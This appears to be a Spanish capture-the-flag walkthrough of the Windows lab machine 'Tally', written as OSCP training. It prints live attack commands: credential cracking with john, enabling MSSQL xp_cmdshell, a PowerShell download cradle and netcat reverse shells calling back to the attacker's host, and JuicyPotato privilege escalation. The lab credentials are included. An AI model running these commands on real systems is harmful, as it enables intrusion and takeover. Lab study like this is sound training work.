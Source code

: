 # Tally

**Sistema Operativo**: Windows

**Dificultad**: Hard

**Técnicas Vistas**: SharePoint Enumeration /
Information Leakage /
Playing with mounts (cifs, curlftpfs) /
Abusing Keepass / 
Abusing Microsoft SQL Server (mssqlclient.py - xp_cmdshell RCE) /
Abusing SeImpersonatePrivilege (JuicyPotato)

Te prepara para las **Certificaciones**: OSCP<br><br>

![image](https://github.com/user-attachments/assets/0f6afbbd-5066-4632-abf7-b7d8f61b09e2)<br><br>

Utilizando `nmap` escaneamos todos los puertos<br>

![image](https://github.com/user-attachments/assets/e7099fea-e205-4b21-b638-815f18a72734)

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>

##### Buscamos reportes de pentesting ya realizados<br><br>

Sharepoint pentest report

https://app.pentest-tools.com/sample-reports/sharepoint-scan-sample-report.pdf

Encontramos esta URL:<br><br>

![image](https://github.com/user-attachments/assets/59e2ef00-4100-4e83-8e7a-34d1906a3eff)

Encontramos un documento con credenciales:<br><br>

![image](https://github.com/user-attachments/assets/616a7c51-55b1-4b86-b236-d705b6231364)

Este es el usuario ftp:<br><br>

![image](https://github.com/user-attachments/assets/76ec395e-b492-4d24-ba83-c9f1a42b1b45)

##### Conexión FTP<br><br>

- ftp 10.10.10.59 
- ftp_user
- UTDRSCH53c"$6hys

##### Como investigar un ftp rapido<br><br>

apt install curlftpfs 

apt install tree

https://wiki.archlinux.org/title/CurlFtpFS

` curlftpfs 10.10.10.59 /mnt/ftp/ -o user=ftp_user:'UTDRSCH53c"$6hys'  `

`cd /mnt/ftp`

` tree `


Rompemos el hash keepass que encontramos en la carpeta `Tim`, utilizando `john`<br><br>

![image](https://github.com/user-attachments/assets/519fc4fc-0399-49af-8120-ef18ee5f3623)

`cp /mnt/ftp/User/Tim/Files/tim.kdbx . ` -> Nos traemos el archivo a nuestro directorio actual.
`chmod 444 tim.kdbx` -> darle permisos de lectura.
`keepass2john tim.kdbx` -> Creamos el Hash para romperlo.
`john --wordlist=/usr/share/wordlists/rockyou.txt hash` -> Lo rompemos<br><br>


En el keepass encontramos credenciales:<br>

![image](https://github.com/user-attachments/assets/b302600e-ae18-49dc-b8f2-c3ac9b8bd109)<br><br>


##### Utilizaremos estas credenciales con crackmapexec y smbmap<br><br>

Verificamos que las credenciales sean correctas, listamos los recursos compartidos a nivel de red, y vemos una carpeta ACCT con permisos de lectura. Vemos que contiene.

![image](https://github.com/user-attachments/assets/8e9ddbcf-ff87-4a28-8260-1e0ee53005a4)<br>

umount /mnt/ftp
rm -r /mnt/ftp<br><br>

##### Como "ACCT" tiene muchas carpetas las vamos abrir con monturas:<br>

`mkdir /mnt/smb`
` mount -t cifs //10.10.10.59/ACCT /mnt/smb -o username=Finance,password=Acc0unting,rw ` -> Una montura de tipo "cifs" donde se comparte el recurso a nivel de red, a `/mnt/smb` y proporciono usuario con contraseña, y permisos de lectura y escritura.



Encontramos el binario `/mnt/smb/zz_Migration/Binaries/New folder/tester.exe`, que si lo vemos con `string tester.exe | less`, tenemos credenciales para base de datos.
![image](https://github.com/user-attachments/assets/258b17e3-3933-44a1-8c71-c9859d2a2621)<br><br>


##### Para conectarse a una base de datos Windows puerto 1433 con credenciales

` mssqlclient.py WORKGROUP/sa:GWE3V65#6KFH93@4GWTG2G@10.10.10.59 `<br><br>

##### Moverse

` xp_cmdshell "whoami" ` -> Esto aveces esta bloqueado.

`sp_configure "xp_cmdshell", 1 ` -> Podemos intentar habilitarlo. pero nos dice que es una opción avanzada.

`sp_configure "show advanced options", 1` -> Nos dice que tenemos que ejecutar RECONFIGURE

`reconfigure`

`sp_configure "xp_cmdshell", 1` -> Ahora si lo podemos habilitar.

`reconfigure`

` xp cmdshell "whoami" ` -> Ahora si podemos ejecutar comandos.<br><br>

##### Como gano una consola interactiva con "Invoke-PowerShellTcp.ps1"<br><br>

`wget https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 `

SQL -> `xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.20/Invoke-PowerShellTcp.ps1\")"`

Maquina atacante -> `python3 -m http.server 80` -> Comparto el `Invoke-PowerShellTcp.ps1`

Maquina de atacante -> `rlwrap nc -nlvp 443` -> Donde ganamos acceso.<br><br>


# Escalamos privilegios

Vemos `SeImpersonatePrivilege` que es una vulnerabilidad.<br>

![image](https://github.com/user-attachments/assets/f7a6d4a2-5363-4885-95aa-1f94d11da116)<br>

Nos dirigimos a `C:\Windows\Temp\`
`mkdir prive`
`cd prive`<br><br>

##### Nos descargamos este Binario<br><br>

https://github.com/ohpe/juicy-potato/releases/tag/v0.1 

Vemos el Windows que corre con `systeminfo`

Buscamos el CLSID correcto:
https://github.com/ohpe/juicy-potato/tree/master/CLSID <br>

##### Nos descargamos netcat para windows<br><br>

https://eternallybored.org/misc/netcat/  

---

##### ¿Cómo nos transferimos archivos?<br><br>

Maquina windows -> `certutil.exe -f -urlcache -split http://10.10.14.20/JP.exe JP.exe` -> Traemos el binario descargado
Maquina windows -> `certutil.exe -f -urlcache -split http://10.10.14.20/nc.exe nc.exe` -> Traemos el binario descargado

Maquina atacante -> `python3 -m http.server 80` -> Compartimos el binario descargado


Ejecutamos `nc.exe` con el binario `JP.exe`

`.\JP.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Windows\Temp\prive\nc.exe -e cmd 10.10.14.20 443" -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" `<br><br>

Flag Final:

![image](https://github.com/user-attachments/assets/ed2c06c7-c36b-45b0-a87a-c20378537caf)
